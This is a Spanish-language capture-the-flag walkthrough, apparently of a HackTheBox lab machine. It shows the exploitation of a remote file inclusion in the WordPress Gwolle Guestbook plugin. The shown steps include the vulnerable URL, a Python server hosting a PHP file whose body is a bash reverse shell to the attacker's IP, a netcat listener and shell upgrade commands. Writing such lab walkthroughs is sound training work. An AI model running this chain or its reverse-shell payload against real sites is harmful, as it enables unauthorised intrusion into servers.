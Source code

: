 ```r
❯ searchsploit -x php/webapps/38861.txt
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```
*Podemos ver esta ruta la cual nos permite cargar un archivo, vamos ha hacer una prueba con un servidor en python.*

```r
❯ curl 'http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.14/'

❯ sudo python3 -m http.server 80
10.10.10.88 - - [11/Oct/2024 14:31:36] "GET /wp-load.php HTTP/1.0" 404 -
```
*Podemos ver que nos intenta cargar un archivo php...*

```php
───────┬────────────────────────────────────────────────────────
       │ File: wp-load.php
───────┼────────────────────────────────────────────────────────
   1   │ <?php
   2   │ system("bash -c 'bash -i >& /dev/tcp/10.10.16.14/443 0>&1'");
   3   │ ?>
───────┴────────────────────────────────────────────────────────
```
*Nos creamos este script en php que nos da una reverse-shell.*

```r
❯ sudo nc -nlvp 443
listening on [any] 443 ...

❯ sudo python3 -m http.server 80
10.10.10.88 - - [11/Oct/2024 14:40:45] "GET /wp-load.php HTTP/1.0" 200 -
```
*Ponemos el nc y el servidor de python...*

```r
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.14/
```
*Nos dirijimos a esta web.*

```r
</wp/wp-content/plugins/gwolle-gb/frontend/captcha$
```
*Nos da la reverseshell!*

```r
</wp/wp-content/plugins/gwolle-gb/frontend/captcha$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null

❯ stty raw -echo;fg
[1]  + continued  
                  reset xterm
</wp/wp-content/plugins/gwolle-gb/frontend/captcha$
```
*Hacemos un tratamiento de la tty aun que no lo hayamos hecho completo.*
